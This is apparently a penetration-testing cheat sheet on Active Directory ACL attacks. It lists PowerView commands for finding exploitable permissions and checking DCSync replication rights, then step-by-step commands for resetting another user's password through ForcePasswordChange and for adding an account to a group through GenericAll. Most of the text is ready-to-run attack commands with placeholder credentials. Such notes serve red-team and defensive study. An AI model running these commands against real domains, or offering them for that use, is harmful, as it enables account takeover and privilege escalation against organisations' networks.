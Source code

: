 ### **ACL Enumeration**

**Manual ACL Enumeration with PowerView:**

1. Always start by importing the PowerView module in the current PS session: `Import-Module .\PowerView.ps1`
2. Find interesting ACLs: `Find-InterestingDomainAcl`
3. Get target user's sid: `$sid = Convert-NameToSid targetuser`
4. Check target user group membership: `Get-DomainUser -Identity targetuser | select samaccountname,objectsid,memberof,useraccountcontrol | fl`
5. Find all domain object that the user has rights over: `Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
6. Discover an object's ACL based on its GUID: `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
7. Check target user (by SID) to check replication rights (DCSync): `$sid= "SID-VALUE" Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`

***

### **ACL Abuse Tactics**

> **Prerequisite:** You must have previously found one of the following ACLs by using bloodhound or manual enumeration techniques

#### **Abusing ForcePasswordChange to Change a User's Password**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a new target user password:
   * `$targetUserNewPassword = ConvertTo-SecureString 'blabla' -AsPlainText -Force`
3. Change the target user's password using PowerView:
   * `Import-Module .\PowerView.ps1`
   * `Set-DomainUserPassword -Identity targetUsername -AccountPassword $targetUserNewPassword -Credential $Cred -Verbose`

#### **Abusing GenericAll to Add the Current User to a Group**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Show the current members of the target group:
   * `Get-ADGroup -Identity "Target Group" -Properties * | Select -ExpandProperty Members`
3. Add the current user to the target group:
   * `Add-DomainGroupMember -Identity 'Target Group' -Members 'targetuser' -Credential $Cred -Verbose`
4. Confirm the user was added:
   * `Get-DomainGroupMember -Identity "Target Group" | Select MemberName`
